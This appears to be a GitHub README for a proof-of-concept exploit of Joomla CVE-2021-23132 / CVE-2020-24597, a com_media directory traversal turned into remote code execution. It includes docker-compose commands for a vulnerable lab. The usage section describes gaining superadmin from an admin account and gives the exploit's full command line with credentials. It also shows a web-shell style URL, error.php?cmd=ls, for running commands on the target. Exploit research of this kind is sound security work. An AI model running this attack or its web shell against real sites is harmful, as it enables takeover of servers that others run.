 # CVE-2021-23132

joomla-cve_2021_23132

## Run Vuln

```
docker-compose up -d
```

## Stop Vuln

```
docker-compose down -v
```

## CVE-2020-24597
Directory traversal in com_media to RCE

Two CVEs are the same.

PoC (Full)

Affected version: Joomla core <=3.9.24

User requirement: Admin account (Not Superadmin)

Gain access: Create superadmin, then trigger RCE.

Remote Code Execution (RCE) in Joomla

Run `cve-2021-23132.py` with your credentials and access link rce:

`http://target/templates/protostar/error.php?cmd=ls `

PoC:
 ```
 python3 cve-2021-23132.py -url http://192.168.72.140 -u admin -p 1234  -rce 1 -cmd ls
 ```

![image](https://user-images.githubusercontent.com/24661746/109748558-a898c200-7c0b-11eb-865f-ed903f23b4d9.png)

I wrote PoC to be able to use `Directory Traversal` or RCE mode.

I used `Directory Traversal` to trigger RCE.

You can use `python3 cve-2021-23132.py -h` to how to use PoC.

Note: Make sure you used python3 and install `lmxl` by `pip3 install lxml`

## References

https://developer.joomla.org/security-centre/846-20210306-core-com-media-allowed-paths-that-are-not-intended-for-image-uploads.html

